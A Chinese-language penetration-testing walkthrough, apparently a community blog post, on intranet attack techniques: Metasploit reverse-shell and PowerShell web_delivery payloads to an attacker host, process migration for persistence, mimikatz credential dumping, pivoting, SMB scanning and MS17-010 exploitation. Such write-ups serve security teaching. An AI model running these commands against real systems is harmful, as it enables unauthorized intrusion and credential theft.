 

# 【基础向】实战讲解内网渗透思路 - 先知社区

【基础向】实战讲解内网渗透思路

- - -

## 简介

> 本次测试为实战测试，测试环境是授权项目中的一部分，敏感信息内容已做打码处理，仅供讨论学习。由于本人在内网方面的掌握也是属于新手阶段，运用到的一些**msf**攻击手法也很基础，请各位表哥多多指教。

## 获得shell

Getshell的过程没什么好说的，无非简单的后台弱口令到上传然后冰蝎连接getshell。  
获得shell后，模拟终端`ping 8.8.8.8`有返回包，说明该服务器与外网互通。  
[![](assets/1698900931-6ae4ae855a6b8959426705b4debadd5d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209134756-73618e86-1a47-1.png)  
既然跟外网互通，那么可以尝试直接使用msf的`exploit/multi/handler`配合冰蝎反弹shell来获得session

```plain
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost xxx.xxx.xxx.xxx
set lport 5665
run
```

[![](assets/1698900931-3957d515307d621d550796c88fc94a73.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209135404-4ec3890c-1a48-1.png)  
但是结果很不尽人意，没能够成功获得session。  
在使用冰蝎模拟终端收集信息过程中，发现本地有**powershell**进程。  
[![](assets/1698900931-fd8d020acdf7e71972ec5ae5bb58776d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209135548-8c38c8ba-1a48-1.png)  
再次打开**msf**，本次尝试使用`web_delivery`配合终端执行powershell指令来获得session。

```plain
User exploit/multi/script/web_delivery
Set targets 2
set payload windows/x64/meterpreter/reverse_https
set lhost xxx.xxx.xxx.xxx
set lport 4332
set srvport
run
```

[![](assets/1698900931-e9fd94764385c49c10524401a540af7c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209135830-ecdfee3c-1a48-1.png)  
[![](assets/1698900931-25c46c0389f22d45dd822f42e848489c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209135937-15029c52-1a49-1.png)  
获得payload，使用冰蝎或者C刀模拟终端直接执行，成功获得session，执行`getuid`发现权限为system权限，省去了提权过程。  
[![](assets/1698900931-55d5b1efd52a7fb15ec57678aad81c52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209140017-2ce8122a-1a49-1.png)

## 权限维持

> 为了获得一个持久稳定的高权限session，我们需要将当前的session进程迁移到一个持久、坚挺又稳定的进程上，防止突然暴毙（咳咳）

我们使用ps查看当前进程，然后选中一个看起来比较持久的幸运儿spoolsv.exe(这是一个用来控制打印的进程，我遇到的机器基本都开启了此进程)  
**注意：**选择进程的时候优先选择系统进程，这种比较持久且为system权限

```plain
migrate 进程号
getpid
```

[![](assets/1698900931-758f3329c18cce1c71f0b31ef78d67c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209140451-d0501d4a-1a49-1.png)

## 内网信息搜集

> 不管是在什么类型的渗透环境下，信息搜集永远是不可缺少的一环，他决定了你渗透的效率，可以让你在渗透过程中少走很多弯路，毕竟在项目上尤其是红蓝攻防中，最缺的永远是时间

接下来，查看IP信息以及arp缓存，查看网段分布情况：  
[![](assets/1698900931-36ab2b9d9807ce6d6f661ce9e23a7432.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209140655-19d6eae8-1a4a-1.png)  
[![](assets/1698900931-c553ff6a162810eb3776fd32a9651311.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209140706-20537814-1a4a-1.png)  
发现该服务器只存在192.168.10.0/24网段的信息  
于是继续查看其他信息

```plain
Netstat -ano
```

发现服务器开放3389端口：  
[![](assets/1698900931-f8c185a345e209c2f53a49ac533c62e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209141402-18b20da4-1a4b-1.png)  
既然开启了3389端口，我们使用端口转发，登录到服务器看看有没有意外收获。

```plain
portfwd add -l 6666 -p 3389 -r 127.0.0.1
```

IP有了，3389开了，现在我们缺少的是用户名密码  
直接**meterpreter**下加载**mimikatz**

```plain
Load mimikatz
Wdigest
```

[![](assets/1698900931-1ac8327fbae6fc4a2cea30b6dae3731f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209142902-30e67f70-1a4d-1.png)  
比较遗憾的是没能获取到明文密码，但是我这边使用**cobalt strike**加载的**mimikatz**成功获取到明文密码  
emmm总之搞不懂的地方先归为玄学问题  
[![](assets/1698900931-43af818f0afcf5a679a090f46da7fe3b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209143603-2bae2566-1a4e-1.png)  
现在，密码也有了，mstsc链接目标3389端口成功**此处涉及的敏感信息较多，放弃截图，我尽量用语言表述清楚思路**  
上传**netpass**查看rdp缓存，无果，但是发现系统有**VNC**

> **VNC:**VNC (Virtual Network Console)是虚拟网络控制台的缩写，是一款远程控制工具软件。

查看VNC相关文件发现新的网段信息，但是没有保存的连接信息，不过能获得新的网段信息也是知足了  
[![](assets/1698900931-7c244caaa37e3fcd020fc6092f0c9c6a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209144126-ec323fb6-1a4e-1.png)

## 横向

> 至此，信息收集部分其实也就差不多，接下来我们开始尝试横向移动

根据之前发现的网段信息以及服务器本机的路由信息，我们手动添加路由

```plain
Run autoroute -s 192.168.10.0/24
Run autoroute -s 172.16.0.0/24
……
```

其他网段同理，添加路由之后`bg`退回到控制台  
先使用`auxiliary/scanner/smb/smb_version`模块扫描一下各网段的**smb**服务开启情况

```plain
Use auxiliary/scanner/smb/smb_version
set rhosts 192.168.10.0/24
set threads 10
run
```

[![](assets/1698900931-922e8d47a74f5a973b8ac5d3ff55d77c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209144539-8317f9b6-1a4f-1.png)  
可以看到，活着的机器还挺多。  
[![](assets/1698900931-b3f7a4bf570e5287969dddef78eca758.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209144709-b8b5d868-1a4f-1.png)  
然后，使用`auxiliary/scanner/smb/psexec_loggedin_users`模块配合已获得的两组账户密码进行横向

```plain
Use auxiliary/scanner/smb/psexec_loggedin_users
Set rhosts 192.168.10.0/24
Set smbuser username
Set smbpass password
Set threads 5
run
```

[![](assets/1698900931-277d5d759de0034f58f6238a47d0fe1f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209144910-00e241ee-1a50-1.png)  
尴尬，横向失败，居然没有用同账户密码  
[![](assets/1698900931-13683ba0bd6cc6e2b06d15afa78468f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209144830-e950ff84-1a4f-1.png)  
既然横向失败，可以考虑最简单的，但也是最实用的大杀器，ms17-010  
先使用`scanner`模块扫描一下哪些机器可能存在ms17-010的漏洞

```plain
Use auxiliary/scanner/smb/smb_ms17_010
Set rhosts 192.168.10.0/24
Set thread 20
Run
```

[![](assets/1698900931-048098820260e435cac82668b4cc4dfb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209145024-2d657c18-1a50-1.png)  
由于打ms17-010的流量比较大，为了防止死掉，我根据扫描出来的结果，针对性的选择一台感觉比较容易搞的目标，单独打。  
此处试了很多机器，好多都打了补丁，不过也有漏网之鱼，此处单独拿一台示例：  
Use auxiliary/admin/smb/ms17\_010\_command  
set rhost 192.168.10.18  
set command whoami  
run  
[![](assets/1698900931-c0b822ffbc835c0ba8030a0e207c313e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209145136-57e4b2d8-1a50-1.png)  
成功执行，是system权限，同理command换成弹shell的命令，便可以获得该机器的权限。  
[![](assets/1698900931-8dc53c08169105a34fb3539e9ee3008c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209145151-60f91abc-1a50-1.png)  
获得新机器的权限之后，便可以围绕新机器进行新一轮的信息搜集，然后不断横向，进一步扩大内网战果，以下，就不在多做测试。  
另外对于**ms17-010**，如果说打2003的机器，建议使用`auxiliary/admin/smb/ms17_010_command`模块进行执行命令获得session；其他的可以直接使用`exploit/windows/smb/ms17_010_eternalblue`或者exploit/windows/smb/ms17\_010\_psexec来直接获得session。

## 写在最后

咕某人提醒您：道路千万条，安全第一条；渗透不规范，亲人两行泪。  
以上渗透测试过程纯属本人杜撰，渗透是不可能渗透的，这辈子都不可能渗透的。  
最后，对于过程中有任何疑问都可以评论留言，我会的会一一回复，不会的也能让路过的表哥给康康，说不定表哥就给解决了呢，嘿嘿（发出了白嫖的笑声）。
